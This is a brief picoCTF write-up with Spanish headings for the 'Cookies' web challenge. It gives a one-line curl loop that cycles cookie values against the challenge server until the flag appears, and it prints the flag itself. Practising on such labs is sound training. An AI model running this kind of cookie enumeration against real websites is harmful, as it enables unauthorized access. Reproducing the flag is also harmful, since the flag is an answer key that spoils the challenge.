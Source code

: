 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)

## Solución
```
dnightshade-picoctf@webshell:~$ for i in {1..20};do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i";done | grep pico
```

## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
## Notas Adicionales

## Referencias
